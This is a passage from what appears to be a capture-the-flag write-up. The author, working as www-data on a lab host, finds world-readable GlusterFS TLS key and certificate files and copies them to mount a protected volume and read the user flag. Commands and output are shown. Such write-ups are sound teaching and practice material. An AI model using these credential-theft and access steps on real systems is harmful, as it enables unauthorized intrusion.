 www-data can read files in `/etc/ssl` (which isn’t the default config):

```

www-data@flustered:/etc/ssl$ ls -l
total 44
drwxr-xr-x 2 root root 16384 Jan 28 10:00 certs
-rw-r--r-- 1 root root  4060 Nov 25 15:42 glusterfs.ca
-rw-r--r-- 1 root root  3243 Nov 25 15:24 glusterfs.key
-rw-r--r-- 1 root root  1822 Nov 25 15:27 glusterfs.pem
-rw-r--r-- 1 root root 11118 Aug 24 09:30 openssl.cnf
drwx------ 2 root root  4096 Jan 28 10:00 private

```

`glusterfs.pem` was one of the files that wasn’t present when trying to mount `vol1`.

### Mount vol1

I’ll copy `glusterfs.pem` into my local `/etc/ssl` directory, and try the mount again. It still returns errors, this time looking for `glusterfs.key`:

```

[2022-02-07 11:41:20.584384] E [socket.c:4469:ssl_setup_connection_params] 0-vol1-client-0: could not load private key at /etc/ssl/glusterfs.key
[2022-02-07 11:41:20.584406] E [socket.c:241:ssl_dump_error_stack] 0-vol1-client-0:   error:02001002:system library:fopen:No such file or directory
[2022-02-07 11:41:20.584415] E [socket.c:241:ssl_dump_error_stack] 0-vol1-client-0:   error:20074002:BIO routines:file_ctrl:system lib
[2022-02-07 11:41:20.584423] E [socket.c:241:ssl_dump_error_stack] 0-vol1-client-0:   error:140B0002:SSL routines:SSL_CTX_use_PrivateKey_file:system lib

```

I’ll copy `glusterfs.key` and `glusterfs.ca` into `/etc/ssl`, and it works:

```

root@hacky:/etc/ssl# mount -t glusterfs 10.10.11.131:/vol1 /mnt
root@hacky:/etc/ssl# ls /mnt
user.txt

```

I’ll grab `user.txt`:

```

root@hacky:/mnt# cat user.txt
085ee121************************

```

### SSH
